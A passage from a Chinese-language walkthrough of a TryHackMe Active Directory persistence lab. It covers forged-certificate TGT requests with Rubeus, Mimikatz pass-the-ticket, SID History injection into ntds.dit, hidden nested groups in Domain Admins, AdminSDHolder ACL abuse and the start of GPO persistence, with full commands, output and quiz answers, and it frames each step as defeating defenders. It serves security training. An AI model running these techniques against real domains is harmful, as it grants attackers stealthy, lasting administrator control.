- /certificate - 我们生成的证书的路径
- /password - 我们证书文件的密码
- /outfile - 我们的 TGT 将输出到的文件
- /domain - 我们当前攻击的域的完全限定域名（FQDN）
- /dc - 我们从中请求 TGT 的域控制器的 IP。通常最好选择一个运行 CA 服务的 DC

一旦我们执行命令，我们应该会收到我们的 TGT：

```shell title="Terminal"
za\aaron.jones@THMWRK1 C:\Users\aaron.jones>C:\Tools\Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:vulncert.pfx /password:tryhackme /outfile:administrator.kirbi /domain:za.tryhackme.loc /dc:10.200.x.101
          ______        _
         (_____ \      | |
          _____) )_   _| |__  _____ _   _  ___
         |  __  /| | | |  _ \| ___ | | | |/___)
         | |  \ \| |_| | |_) ) ____| |_| |___ |
         |_|   |_|____/|____/|_____)____/(___/

         v2.0.0

       [*] Action: Ask TGT

       [*] Using PKINIT with etype aes256_cts_hmac_sha1 and subject: CN=vulncert
       [*] Building AS-REQ (w/ PKINIT preauth) for: 'za.tryhackme.loc\Administrator'
       [+] TGT request successful!
       [*] base64(ticket.kirbi):

             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

         ServiceName              :  krbtgt/za.tryhackme.loc
         ServiceRealm             :  za.tryhackme.loc
         UserName                 :  Administrator
         UserRealm                :  za.tryhackme.loc
         StartTime                :  2/6/2022 5:54:46 PM
         EndTime                  :  2/7/2022 3:54:46 AM
         RenewTill                :  2/13/2022 5:54:46 PM
         Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
         KeyType                  :  aes256_cts_hmac_sha1
         Base64(key)              :  Qr+FUX+/G2jHgAR2ssW11+lhaPlB6dMD8V5/rENwJVU=
         ASREP (key)              :  BF2483247FA4CB89DA0417DFEC7FC57C79170BAB55497E0C45F19D976FD617ED
```

现在我们可以使用 Mimikatz 加载 TGT 并进行对 THMDC 的身份验证：

```shell title="Terminal"
za\aaron.jones@THMWRK1 C:\Users\aaron.jones>C:\Tools\mimikatz_trunk\x64\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` (benjamin@gentilkiwi.com)
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             (vincent.letoux@gmail.com)
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # kerberos::ptt administrator.kirbi

* File: 'administrator.kirbi': OK

mimikatz # exit
Bye!

za\aaron.jones@THMWRK1 C:\Users\aaron.jones>dir \\THMDC.za.tryhackme.loc\c$\
 Volume in drive \\THMDC.za.tryhackme.loc\c$ is Windows
 Volume Serial Number is 1634-22A9

 Directory of \\THMDC.za.tryhackme.loc\c$

01/04/2022  08:47 AM               103 delete-vagrant-user.ps1
04/30/2022  10:24 AM               154 dns_entries.csv
04/27/2022  10:53 PM           885,468 MzIzMzViM2ItMmQ2Zi00YWQ3LWEwNjEtYjg2MmFjNzViY2Ix.bin
09/15/2018  08:19 AM    <DIR>          PerfLogs
03/21/2020  09:31 PM    <DIR>          Program Files
03/21/2020  09:28 PM    <DIR>          Program Files (x86)
04/27/2022  08:27 AM             1,423 thm-network-setup-dc.ps1
04/25/2022  07:13 PM    <DIR>          tmp
04/27/2022  08:22 AM    <DIR>          Users
04/25/2022  07:11 PM    <SYMLINKD>     vagrant [\\vboxsvr\vagrant]
04/27/2022  08:12 PM    <DIR>          Windows
               7 File(s)      2,356,811 bytes
               7 Dir(s)  50,914,541,568 bytes free
```

### 和蓝队的友情告别了

证书持久性要远比凭据更难以防御。即使你轮换了被攻击账户的凭据，证书仍然有效。唯一移除持久性的方法是吊销证书。然而，这只有在我们通过合法途径生成了证书时才可能。由于我们导出了 CA 并自己生成了证书，它不会出现在 AD CS 所颁发的证书列表中，这意味着蓝队将无法吊销我们的证书。

那么除了移除持久性，还有什么解决方案？嗯，这就是为什么我们不再是朋友的原因。他们将不得不吊销根 CA 证书。但吊销这个证书意味着 AD CS 颁发的所有证书会突然变得无效。这意味着他们必须为使用 AD CS 的每个系统生成新的证书。你应该开始明白为什么这种类型的持久性极其危险，如果执行的话，将需要对系统进行全面重建。

:::info Answer the questions below

使用什么密钥来签署证书以证明其真实性？

```plaintext
Private key
```

如果我们有了 CA 证书和私钥，我们可以用什么应用程序来伪造证书呢？

```plaintext
ForgeCert.exe
```

从名为 Ticket.kirbi 的文件传递票证的 Mimikatz 命令是什么？

```plaintext
kerberos::ptt ticket.kirbi
```

:::

## Persistence through SID History  - 通过 SID 历史实现持久化

安全标识符（SIDs）之前已经讨论过了。但为了回顾一下，SIDs 用于跟踪安全主体和帐户连接到资源时的访问。然而，帐户上有一个有趣的属性，叫做 SID 历史记录。

SID 历史记录的合法用途是允许将一个帐户的访问有效克隆到另一个帐户上。这在组织正在执行 AD 迁移时非常有用，因为它允许用户在被迁移到新域时保留对原始域的访问权限。在新域中，用户会有一个新的 SID，但我们可以将用户现有的 SID 添加到 SID 历史记录中，这将仍然允许他们使用新帐户访问先前域中的资源。虽然 SID 历史记录对于迁移是有益的，但作为攻击者，我们也可以滥用这个特性来实现持久性。

### 历史记录可以是我们想要的任何形式

事实是，SID 历史记录并不仅限于包含来自其他域的 SIDs。在具有正确权限的情况下，我们可以将当前域的 SID 添加到我们控制的帐户的 SID 历史记录中。关于这种持久性技术的一些有趣注释：

- 通常情况下，我们需要域管理员特权或相当权限才能执行此攻击。
- 当帐户创建登录事件时，与帐户关联的 SIDs 会添加到用户的令牌中，然后确定与帐户关联的特权。这包括组 SID。
- 如果我们注入企业管理员 SID，我们可以进一步加强此攻击，因为这将使帐户的特权在整个森林中成为有效的域管理员。
- 由于 SIDs 被添加到用户的令牌中，即使帐户不是实际组的成员，特权也会得到尊重。这使得这成为一种非常隐秘的持久性方法。我们拥有所有需要的权限来 compromise 整个域（甚至整个森林），但我们的帐户可以只是普通用户帐户，仅属于域用户组。通过始终使用此帐户更改另一个帐户的 SID 历史记录，我们可以将这种隐蔽性提升到另一个水平，这样最初的持久性向量就不会那么容易被发现和纠正。

### 伪造历史

获取一个 SSH 会话到 THMDC，使用管理员凭据进行下一步操作。在伪造 SID 历史记录之前，首先获取一些关于 SIDs 的信息。首先，确保我们的低权限用户当前没有任何 SID 历史记录的信息：

```shell title="Terminal"
za\aaron.jones@THMCHILDDC C:\Users\Administrator.ZA>powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator.ZA> Get-ADUser <your ad username> -properties sidhistory,memberof

DistinguishedName : CN=aaron.jones,OU=Consulting,OU=People,DC=za,DC=tryhackme,DC=loc
Enabled           : True
GivenName         : Aaron
MemberOf          : {CN=Internet Access,OU=Groups,DC=za,DC=tryhackme,DC=loc}
Name              : aaron.jones
ObjectClass       : user
ObjectGUID        : 7d4c08e5-05b6-45c4-920d-2a6dbba4ca22
SamAccountName    : aaron.jones
SID               : S-1-5-21-3885271727-2693558621-2658995185-1429
SIDHistory        : {}
Surname           : Jones
UserPrincipalName :
```

这确认了我们的用户当前没有设置任何 SID 历史记录。让我们获取域管理员组的 SID，因为这是我们想要添加到 SID 历史记录中的组：

```shell title="Terminal"
PS C:\Users\Administrator.ZA> Get-ADGroup "Domain Admins"

DistinguishedName : CN=Domain Admins,CN=Users,DC=za,DC=tryhackme,DC=loc
GroupCategory     : Security
GroupScope        : Global
Name              : Domain Admins
ObjectClass       : group
ObjectGUID        : 3a8e1409-c578-45d1-9bb7-e15138f1a922
SamAccountName    : Domain Admins
SID               : S-1-5-21-3885271727-2693558621-2658995185-512
```

我们可以使用类似 Mimikatz 的工具来添加 SID 历史记录。然而，最新版本的 Mimikatz 存在一个缺陷，不能修补 LSASS 以更新 SID 历史记录。因此，我们需要使用其他工具。在这种情况下，我们将使用 [DSInternals](https://github.com/MichaelGrafnetter/DSInternals) 工具直接修补 ntds.dit 文件，这是存储所有信息的 AD 数据库：

```shell title="Terminal"
PS C:\Users\Administrator.ZA>Stop-Service -Name ntds -force
PS C:\Users\Administrator.ZA> Add-ADDBSidHistory -SamAccountName 'username of our low-priveleged AD account' -SidHistory 'SID to add to SID History' -DatabasePath C:\Windows\NTDS\ntds.dit
PS C:\Users\Administrator.ZA>Start-Service -Name ntds
```

NTDS 数据库在 NTDS 服务运行时被锁定。为了修补我们的 SID 历史记录，我们必须先停止该服务。在进行修补之后，必须重新启动 NTDS 服务，否则整个网络的认证将无法正常工作。

完成这些步骤后，让我们使用我们的低权限凭据通过 SSH 登录到 THMWRK1，验证 SID 历史记录是否已添加，并且我们现在是否拥有域管理员特权：

```shell title="Terminal"
za\aaron.jones@THMWRK1 C:\Users\aaron.jones>powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\aaron.jones> Get-ADUser aaron.jones -Properties sidhistory

DistinguishedName : CN=aaron.jones,OU=Consulting,OU=People,DC=za,DC=tryhackme,DC=loc
Enabled : True
GivenName : Aaron
Name : aaron.jones
ObjectClass : user
ObjectGUID : 7d4c08e5-05b6-45c4-920d-2a6dbba4ca22
SamAccountName : aaron.jones
SIDHistory : {S-1-5-21-3885271727-2693558621-2658995185-512}
Surname : Jones
UserPrincipalName :

PS C:\Users\aaron.jones> dir \\thmdc.za.tryhackme.loc\c$

Directory: \\thmdc.za.tryhackme.loc\c$

Mode LastWriteTime Length Name
---- ------------- ------ ----
d----- 9/15/2018 8:19 AM PerfLogs
d-r--- 5/11/2022 10:32 AM Program Files
d----- 3/21/2020 8:28 PM Program Files (x86)
d----- 4/25/2022 7:13 PM tmp
da---- 5/11/2022 10:11 AM Tools
d-r--- 4/27/2022 8:22 AM Users
d----l 4/25/2022 7:11 PM vagrant
d----- 4/27/2022 8:12 PM Windows
-a---- 1/4/2022 7:47 AM 103 delete-vagrant-user.ps1
-a---- 5/1/2022 9:11 AM 169 dns_entries.csv
-a---- 5/1/2022 9:17 AM 1725 thm-network-setup-dc.ps1
```

根据上面的输出，操作成功了！我们成功伪造了 SID 历史记录，授予了我们的低权限账户域管理员权限！

### 来自蓝队的长矛火把来了

如果你通过 RDP 登录到其中一台主机，并使用 AD 用户和组快捷方式，你就可以查看到添加到你用户的 SID 历史属性。然而，即使拥有最高权限，你也无法删除该属性，因为它是受保护的。要删除它，你需要使用诸如 AD-RSAT PowerShell 命令等工具来移除 SID 历史。

然而，在考虑移除恶意 SID 历史属性之前，你首先需要找到它们。常规工具不会告诉你出现了问题。那个用户不会突然出现在域管理员组中。因此，除非你正在积极筛选用户的属性，否则这非常难以发现。这是因为 SID 历史只在用户认证时应用和使用。

想象一下，你是蓝队正在处理一起事件，你刚刚执行了域夺回操作。你两次更改了 krbtgt 帐户的密码，移除了黄金票据和白银票据，并从头开始重建了整个 CA 服务器，结果发现攻击者仍然在使用低权限账户执行域管理员的命令。这一天肯定不会太好过。

:::info Answer the questions below

通常使用什么 AD 对象属性来指定对象先前域中的 SID，以允许无缝迁移到新域？

```plaintext
SIDHistory
```

域控制器上存储所有 AD 信息的数据库文件是什么？

```plaintext
ntds.dit
```

PowerShell 在注入 SID 历史值后重新启动 ntds 服务的命令是什么？

```plaintext
Start-Service -Name ntds
```

:::

## Persistence through Group Membership  - 通过组成员关系实现持久化

如果我们不想篡改 SID 历史，我们可以直接将自己添加到 AD 组中以实现持久性。虽然 SID 历史是一种很好的持久性技术，但凭证轮换和清理仍然可以清除我们的持久性。在某些情况下，通过针对 AD 组本身进行持久化可能更为可取。

### 通过组成员关系实现持久化

正如在任务 1 中讨论的那样，最具特权的账户或组并不总是用于持久性的最佳选择。相比其他组，特权组的变更更受密切监控。任何被归类为受保护组的组，比如域管理员或企业管理员，都会受到额外的安全审查。因此，如果我们想通过组成员身份实现持久性，可能需要在选择用于持久性的组方面进行创造性思考：

- IT 支持组可以被用来获得强制更改用户密码等权限。虽然在大多数情况下，我们可能无法重置特权用户的密码，但拥有重置低权限用户密码的能力可以让我们进入工作站。
- 提供本地管理员权限的组通常不像受保护组那样受到严密监控。通过网络支持组的组成员身份获得正确主机的本地管理员权限，可能会有很好的持久性，可用于再次威胁域。
- 这不总是关于直接权限。有时具有间接权限的组，比如对群组策略对象（GPOs）的所有权，同样可以作为很好的持久性手段。

### Nested Groups - 嵌套组

在大多数组织中，有大量的递归组。递归组是指一个组是另一个组的成员。我们可以将这看作是组的嵌套。组的嵌套用于在 AD 中创建更有组织性的结构。举个例子，IT 支持组非常通用。因此，也许在这个组下有子组，比如 Helpdesk、门禁卡管理员和网络管理员。我们可以将所有这些子组添加为 IT 支持组的成员，这样这些子组中的所有用户都会具有与 IT 支持组相关联的权限和特权，但我们可以为每个子组分配更精细的权限和特权。

虽然组的嵌套有助于组织 AD，但它降低了有效访问的可见性。再以 IT 支持组为例。如果我们查询 IT 支持组的成员资格，AD 会回复有三个成员。然而，这个计数并不真实，因为实际上是三个组。为了了解有效访问权限，我们现在必须枚举这些子组。但这些子组也可以有自己的子组。所以问题变成了：“我们应该枚举多少层来得到真正的有效访问数量？”

这也成为了一个监控问题。比如说，如果我们有一个警报，当有新成员加入域管理员组时触发。这是一个很好的警报，但如果用户被添加到域管理员组内的子组，警报就不会触发。这是一个非常常见的问题，因为 AD 由 AD 团队管理，而警报和监控由信息安全团队管理。只需一点点的沟通失误，警报就不再有效，因为使用了子组。

作为攻击者，我们可以利用这种降低的可见性来实现持久性。我们不再针对可以让我们访问环境的特权组，而是将注意力集中在子组上。与其将自己添加到会触发警报的特权组，不如将自己添加到未被监控的子组。

### Nesting Our Persistence - 嵌套我们的持久化

让我们模拟这种持久性。为了让其他用户也能执行这项技术，请确保在创建的所有组名前加上你的用户名。为了模拟持久性，我们将创建一些自己的组。让我们首先创建一个新的基础组，我们将隐藏在 “People”->“IT 组织单元”（OU）中：

```powershell title="Terminal"
PS C:\Users\Administrator.ZA>New-ADGroup -Path "OU=IT,OU=People,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "<username> Net Group 1" -SamAccountName "<username>_nestgroup1" -DisplayName "<username> Nest Group 1" -GroupScope Global -GroupCategory Security
```

现在让我们在 “People”->“销售”OU 中创建另一个组，并将之前创建的组添加为成员：

```powershell title="Terminal"
PS C:\Users\Administrator.ZA>New-ADGroup -Path "OU=SALES,OU=People,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "<username> Net Group 2" -SamAccountName "<username>_nestgroup2" -DisplayName "<username> Nest Group 2" -GroupScope Global -GroupCategory Security
PS C:\Users\Administrator.ZA>Add-ADGroupMember -Identity "<username>_nestgroup2" -Members "<username>_nestgroup1"
```

我们可以再做几次，每次都将前一个组添加为成员：

```powershell title="Terminal"
PS C:\Users\Administrator.ZA> New-ADGroup -Path "OU=CONSULTING,OU=PEOPLE,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "<username> Net Group 3" -SamAccountName "<username>_nestgroup3" -DisplayName "<username> Nest Group 3" -GroupScope Global -GroupCategory Security
PS C:\Users\Administrator.ZA> Add-ADGroupMember -Identity "<username>_nestgroup3" -Members "<username>_nestgroup2"
PS C:\Users\Administrator.ZA> New-ADGroup -Path "OU=MARKETING,OU=PEOPLE,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "<username> Net Group 4" -SamAccountName "<username>_nestgroup4" -DisplayName "<username> Nest Group 4" -GroupScope Global -GroupCategory Security
PS C:\Users\Administrator.ZA> Add-ADGroupMember -Identity "<username>_nestgroup4" -Members "<username>_nestgroup3"
PS C:\Users\Administrator.ZA> New-ADGroup -Path "OU=IT,OU=PEOPLE,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "<username> Net Group 5" -SamAccountName "<username>_nestgroup5" -DisplayName "<username> Nest Group 5" -GroupScope Global -GroupCategory Security
PS C:\Users\Administrator.ZA> Add-ADGroupMember -Identity "<username>_nestgroup5" -Members "<username>_nestgroup4"
```

现在让我们将最后一个组添加到域管理员组中：

```powershell title="Terminal"
PS C:\Users\Administrator.ZA>Add-ADGroupMember -Identity "Domain Admins" -Members "<username>_nestgroup5"
```

最后，让我们将我们的低权限 AD 用户添加到我们创建的第一个组中：

```powershell title="Terminal"
PS C:\Users\Administrator.ZA>Add-ADGroupMember -Identity "<username>_nestgroup1" -Members "<low privileged username>"
```

马上，你的低权限用户现在应该已经拥有了对 THMDC 的特权访问。让我们通过在 THMWRK1 上使用 SSH 终端来验证一下：

```shell title="Terminal"
za\aaron.jones@THMWRK1 C:\Users\aaron.jones>dir \\thmdc.za.tryhackme.loc\c$\
 Volume in drive \\thmdc.za.tryhackme.loc\c$ is Windows
 Volume Serial Number is 1634-22A9

 Directory of \\thmdc.za.tryhackme.loc\c$

01/04/2022  08:47 AM               103 delete-vagrant-user.ps1
05/01/2022  09:11 AM               169 dns_entries.csv
09/15/2018  08:19 AM    <DIR>          PerfLogs
05/11/2022  10:32 AM    <DIR>          Program Files
03/21/2020  09:28 PM    <DIR>          Program Files (x86)
05/01/2022  09:17 AM             1,725 thm-network-setup-dc.ps1
04/25/2022  07:13 PM    <DIR>          tmp
05/15/2022  09:16 PM    <DIR>          Tools
04/27/2022  08:22 AM    <DIR>          Users
04/25/2022  07:11 PM    <SYMLINKD>     vagrant [\\vboxsvr\vagrant]
04/27/2022  08:12 PM    <DIR>          Windows
               3 File(s)          1,997 bytes
               8 Dir(s)  51,573,755,904 bytes free
```

让我们也验证一下，即使我们创建了多个组，域管理员组只有一个新成员：

```shell title="Terminal"
PS C:\Users\Administrator.ZA> Get-ADGroupMember -Identity "Domain Admins"


distinguishedName : CN=Administrator,CN=Users,DC=za,DC=tryhackme,DC=loc
name              : Administrator
objectClass       : user
objectGUID        : 0bbd7980-b53b-4634-8a28-57e4234655c2
SamAccountName    : Administrator
SID               : S-1-5-21-3885271727-2693558621-2658995185-500

distinguishedName : CN=Am0 Net Group 5,OU=IT,OU=People,DC=za,DC=tryhackme,DC=loc
name              : Am0 Net Group 5
objectClass       : group
objectGUID        : ba545574-6af9-4a3d-a8df-24ab582fc04c
SamAccountName    : am0_nestgroup5
SID               : S-1-5-21-3885271727-2693558621-2658995185-6163
```

### 不只是蓝队会感到恼火

如果这是一个真实的组织，我们不会创建新的嵌套组。相反，我们会利用现有的组来进行嵌套。然而，在正常的红队评估中，你几乎永远不会这样做，并且几乎总是在这一点上停止攻击，因为这会破坏组织的 AD 结构，如果我们破坏得足够严重，他们将无法恢复。在这一点上，即使蓝队能够将我们赶出去，该组织很有可能仍然必须从头开始重建他们整个的 AD 结构，导致巨大的损失。

:::info Answer the questions below

用于描述属于其他 AD 组成员的 AD 组的术语是什么？

```plaintext
Group Nesting
```

将新成员 thmtest 添加到 AD 组 thmgroup 的命令是什么？

```plaintext
Add-ADGroupMember -Identity thmgroup -Members thmtest
```

:::

## Persistence through ACLs  - 通过访问控制列表（ACLs）实现持久化

如果我们想同时对所有受保护的组进行持久化，有时就需要更多操作。

### 通过 AD 组模板进行持久化

虽然我们可以将我们控制的账户添加到每一个找得到的特权组中，但蓝队仍然能够进行清理并移除我们的成员身份。为了更好地确保持久性并让蓝队感到困惑，我们应该注入到生成默认组的模板中。通过注入到这些模板中，即使他们移除我们的成员身份，我们只需要等待模板刷新，我们就会再次被授予成员身份。

其中一个模板是 AdminSDHolder 容器。该容器存在于每个 AD 域中，其访问控制列表（ACL）被用作将权限复制到所有受保护组的模板。受保护的组包括域管理员、管理员、企业管理员和架构管理员等特权组。如果你正在寻找完整的组列表，你可以在这里找到。

一个称为 SDProp 的过程会每 60 分钟将 AdminSDHolder 容器的 ACL 应用到所有受保护组上。因此，我们可以编写一个 ACE（访问控制项），授予我们对所有受保护组的完全权限。如果蓝队不知道正在使用这种类型的持久性，那将会非常令人沮丧。每当他们移除受保护对象或组上不恰当的权限时，这些权限将在一个小时内重新出现。由于这种重建是通过正常的 AD 进程进行的，所以它也不会向蓝队显示任何警报，这使得更难确定持久性的来源。

### 利用 AdminSDHolder 进行持久化

为了部署我们的持久性到 AdminSDHolder，我们将使用 Microsoft Management Console (MMC)。为了避免将用户从其 RDP 会话中踢出，最好的方法是使用你的低权限凭据 RDP 登录到 THMWRK1，使用 runas 命令注入管理员凭据，然后从这个新的终端执行 MMC：

```shell
runas /netonly /user:thmchilddc.tryhackme.loc\Administrator cmd.exe
```

一旦你打开了 MMC 窗口，添加 “用户和组” 快捷方式（文件 -> 添加快捷方式 -> 活动目录用户和计算机）。确保启用了高级功能（视图 -> 高级功能）。我们可以在域 -> 系统下找到 AdminSDHolder 组：

<div style={{textAlign:'center'}}>



</div>

导航到该组的安全选项（右键点击 -> 属性 -> 安全）：

<div style={{textAlign:'center'}}>



</div>

让我们添加我们的低权限用户并授予完全控制：

1. 点击 “添加”。
2. 搜索你的低权限用户名并点击 “检查名称”。
3. 点击 “确定”。
4. 在 “完全控制” 上点击 “允许”。
5. 点击 “应用”。
6. 点击 “确定”。

应该是这个样子：

<div style={{textAlign:'center'}}>


</div>

### SDProp - 安全描述符传播器

现在我们只需要等待 60 分钟，我们的用户就会对所有受保护组拥有完全控制。这是因为安全描述符传播器（SDProp）服务会每 60 分钟自动执行，并将此更改传播到所有受保护组。但是，由于我们不喜欢等待，让我们使用 PowerShell 手动启动这个过程。在 `C:\Tools\` 目录中，提供了一个名为 `Invoke-ADSDPropagation` 的脚本：

```powershell title="Terminal"
PS C:\Tools> Import-Module .\Invoke-ADSDPropagation.ps1
PS C:\Tools> Invoke-ADSDPropagation
```

完成后，等待片刻，然后查看一个受保护组（比如域管理员组，你可以使用搜索命令找到这个组）的安全权限：

<div style={{textAlign:'center'}}>



</div>

可以看到，我们的低权限用户对该组拥有完全控制。你可以验证这种持久性是否会持续传播，方法是将你的用户从安全权限中移除，然后重新运行 PowerShell 脚本。你的用户将再次被添加。有趣的是，虽然我们有权限修改组，但这并不会自动将我们添加到组中：

<div style={{textAlign:'center'}}>



</div>

然而，利用我们的新权限，我们可以将自己添加到这个组中：

<div style={{textAlign:'center'}}>



</div>

### 对蓝队来说，情况正在变得不利

想象一下将这个持久性与之前任务中的组嵌套结合起来。就在蓝队完成通过大量组更改撤销你的访问权限之后，60 分钟后，你可以再次操作一遍。除非蓝队意识到权限是通过 AdminSDHolder 组进行修改的，否则他们每 60 分钟都会困惑不已。由于这种持久性是通过合法的 AD 服务传播的，每次发生时，他们很可能毫无所知。如果你真的想要持久化，你可以在 AdminSDHolder 组中给予域用户组完全控制权限，这意味着任何低权限用户都将被授予对所有受保护组的完全控制权限。结合全面的 DC 同步，蓝队将不得不重置域中的每个凭证，以彻底清除我们。

:::info Answer the questions below

哪个 AD 组的 ACL 用作所有受保护组的 ACL 的模板？

```plaintext
AdminSDHolder
```

哪种 AD 服务会更新所有受保护组的 ACL 以匹配模板的 ACL？

```plaintext
SDProp
```

哪些 ACL 权限允许用户对 AD 对象执行任何操作？

```plaintext
Full Control
```

:::

## Persistence through GPOs  - 通过组策略对象（GPOs）实现持久化

最后一个持久化技术是通过组策略对象（GPOs）实现的持久化。到这一步，你应该对 GPOs 有所了解，基于我们讨论过的所有不同枚举、攻击和利用技术。然而，GPOs 也非常适用于部署持久性。

AD 中的组策略管理提供了一个集中机制，用于管理所有加入域的机器的本地策略配置。这包括诸如限制组成员资格、防火墙和防病毒软件配置，以及启动时应执行哪些脚本等配置。虽然这是一个出色的管理工具，但攻击者可以将其作为目标，通过它在整个网络中部署持久性。更糟糕的是，攻击者通常可以将 GPO 隐藏得几乎不可能移除。

### 域范围的持久化

以下是一些常见的 GPO 持久化技术：

- 限制组成员资格 - 这可能会允许我们对域中的所有主机进行管理访问
